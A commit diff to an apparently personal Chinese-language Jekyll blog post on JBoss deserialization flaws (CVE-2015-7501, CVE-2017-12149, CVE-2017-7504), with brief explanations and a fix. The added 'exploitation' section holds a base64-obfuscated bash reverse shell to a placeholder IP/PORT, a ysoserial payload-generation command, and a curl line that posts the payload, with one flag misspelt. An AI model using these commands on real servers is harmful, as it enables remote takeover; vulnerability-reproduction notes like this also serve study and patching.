

Before and after one commit to kerno-yep/kerno-yep.github.io, a Jekyll site: the page built from _posts/2022-08-31-jboss反序列化.md, in a window 1280 px wide and 1400 px high, scrolled down 624 px. Shown: the whole window, without its empty margins (233-1046 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 1802 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
modified:   "_posts/2022-08-31-jboss\345\217\215\345\272\217\345\210\227\345\214\226.md"

````diff
--- a/_posts/2022-08-31-jboss反序列化.md
+++ b/_posts/2022-08-31-jboss反序列化.md
@@ -1,6 +1,6 @@
 ---
 layout: post
-title: jboss 漏洞整理
+title: JBoss 漏洞整理
 date: 2022-8-31
 categories: blog
 tags: [漏洞复现,jboss]
@@ -8,19 +8,23 @@
 
 
 ---
-## jboss反序列化
+### JBoss反序列化
 
 RMI数据传输基于反序列化，服务中若实现RMI的调用且具有对象，那么就可能造成反序列化漏洞。JMX服务基于RMI实现，且将凭证作为对象传入
 
-### **CVE-2015-7501漏洞原理**
+#### **CVE-2015-7501漏洞原理**
 
 JBoss中的`/invoker/JMXInvokerServlet`请求中读取用户传入的对象,可以任意代码执行
 
-### **CVE-2017-12149漏洞原理**
+#### **CVE-2017-12149漏洞原理**
 
 JBoss的`HttpInvoker`组件中的`ReadOnlyAccessFilter`过滤器没有安全检查就进行反序列化
 
-#### 利用条件
+#### CVE-2017-7504漏洞原理
+
+JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞
+
+### 利用条件
 
 1. /invoker/readonly目录存在且能访问
 2. 版本号为5.x/6.x
@@ -29,6 +33,8 @@
 ### **漏洞复现**
 
 `只能通过链式调用来执行java语句，执行的语句必须可以写到一行里面，而且还不能带分号`
+ysoserial.jar包的CommonsCollections5链把要执行的反弹shell生成一个ser文件
+访问`/invoker/readonly`对三个漏洞均适用
 
 #### CVE-2015-7501
 
@@ -38,6 +44,21 @@
 
 漏洞存在`/invoker/readonly`中，将payload作为`POST Body`发送至`/invoker/readonly`即可
 
-#### JMXInvokerServlet-deserialization
+#### CVE-2017-7504
 
-漏洞存在`/invoker/JMXInvokerServle`t中，将payload作为`POST Body`发送至`JMXInvokerServlet-deserialization`即可
+漏洞存在`/invoker/JMXInvokerServlet`中，将payload作为`POST Body`发送至`JMXInvokerServlet-deserialization`即可
+
+#### 漏洞利用
+
+```shell
+#利用runtime-exec-payloads生成代码
+bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9JUC9QT1JUIDA+JjE=}|{base64,-d}|{bash,-i}
+#利用ysoserial生成序列化数据
+java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9JUC9QT1JUIDA+JjE=}|{base64,-d}|{bash,-i}" > test.ser
+#利用curl发送数据利用
+curl IP:PORT/invoker/readonly --databinary @test.ser
+```
+
+### **漏洞修复**
+
+禁止将JBoss的**JMXInvokerServlet**接口（默认8080）以及JBoss Web Console对外网开放
````
